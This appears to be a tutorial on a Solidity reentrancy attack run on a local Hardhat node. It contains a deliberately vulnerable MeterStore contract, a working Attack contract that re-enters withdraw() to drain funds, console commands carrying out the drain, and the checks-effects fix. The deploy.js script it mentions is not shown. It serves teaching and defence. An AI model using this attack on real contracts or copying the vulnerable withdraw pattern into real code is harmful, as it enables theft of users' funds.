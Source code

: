 # Hardhat reentrancy attack tutorial

## Introduction
The Reentrancy attack is one of the most destructive attacks in the Solidity smart contract. A reentrancy attack occurs when a function makes an external call to another untrusted contract. Then the untrusted contract makes a recursive call back to the original function in an attempt to drain funds. (https://hackernoon.com/hack-solidity-reentrancy-attack)

## Create a new Hardhat project
```shell
npx hardhat
```
Select "Create a basic sample project" from the menu. Choose the default values for the next configuration questions.

## Create the smart contract with the reentrancy vulnerability
First delete the contracts/Greeter.sol contract file that hardhat created.
Next create a new file named contracts/MeterStore.sol with the following code:

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

contract MeterStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send MTR");

        balances[msg.sender] = 0;
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Create a new file named Attack.sol and paste the following code.

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import "./MeterStore.sol";
import "hardhat/console.sol";

contract Attack {
    MeterStore public meterStore;

    constructor(address _meterStoreAddress) {
        meterStore = MeterStore(_meterStoreAddress);
    }

    receive() external payable {
      console.log("Received MTR");
        if (address(meterStore).balance >= 1 ether) {
            meterStore.withdraw();
        }
    }    

    function attack() external payable {
        require(msg.value >= 1 ether);
        meterStore.deposit{value: 1 ether}();
        meterStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Run a local node
```shell
npx hardhat node
```

## Deploy the contracts
Create a new file named scripts/deploy.js

```shell
npx hardhat run --network localhost scripts/deploy.js
```

## Run the hardhat console
```shell
npx hardhat console --network localhost
```

## Send MTR from accounts 1 & 2 to the MeterStore contract address from the command line
```shell
const MeterStore = await ethers.getContractFactory('MeterStore');
const meterStore = await MeterStore.attach('0x4826533B4897376654Bb4d4AD88B7faFD0C98528');

const [owner, acc1, accAttacker] = await ethers.getSigners();
await meterStore.connect(owner).deposit({value: ethers.utils.parseEther('1')});
await meterStore.connect(acc1).deposit({value: ethers.utils.parseEther('1')});

console.log('MeterStore balance: ' + await meterStore.getBalance());

const Attack = await ethers.getContractFactory('Attack');
const attack = await Attack.attach('0x99bbA657f2BbC93c02D617f8bA121cB8Fc104Acf');
console.log('Attack balance: ' + await attack.getBalance());
await attack.connect(accAttacker).attack({value: ethers.utils.parseEther('1')});

console.log('Attack balance: ' + await attack.getBalance());
console.log('MeterStore balance: ' + await meterStore.getBalance());
```

## Preventative Technique
As you can see the MeterStore contract balance is now 0. To avoid reentrancy attacks ensure all state changes happen before calling external contracts. The withdraw function in the MeterStore contract should be modified as follows:

```solidity
function withdraw() public {
  uint bal = balances[msg.sender];
  require(bal > 0);

  balances[msg.sender] = 0;
  (bool sent, ) = msg.sender.call{value: bal}("");
  require(sent, "Failed to send Ether");
}
```